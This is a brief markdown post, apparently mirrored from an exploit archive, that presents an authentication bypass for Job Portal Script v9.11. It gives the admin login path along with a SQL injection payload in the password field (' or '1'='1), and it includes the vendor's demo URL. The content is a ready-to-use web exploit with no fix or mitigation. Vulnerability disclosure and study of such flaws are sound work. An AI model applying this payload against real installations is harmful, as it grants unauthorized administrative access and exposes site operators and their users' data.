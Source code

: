 ```yaml
---
layout: post
title: Job Portal Script v9.11 - Authentication bypass - 12.01.2017
---
```

Authentication bypass should give you access to the admin area.

<br># Vulnerability: Job Portal Script v9.11 Authentication bypass
<br># Date: 12.01.2017
<br># Software link: http://itechscripts.com/job-portal-script/
<br># Demo:  http://job-portal.itechscripts.com
<br># Price: 199$
<br># Category: webapps
<br># Exploit Author: Dawid Morawski
<br># Website: http://www.morawskiweb.pl
<br># Contact: dawid.morawski1990@gmail.com
<br>#######################################
<br>
<br>1. Description
<br>Authentication bypass should give you access to the admin area.
 
<br>Go to http://localhost/[PATH]/admin/index.php and set:
<br> 
<br>Username: admin
<br>Password: ' or '1'='1
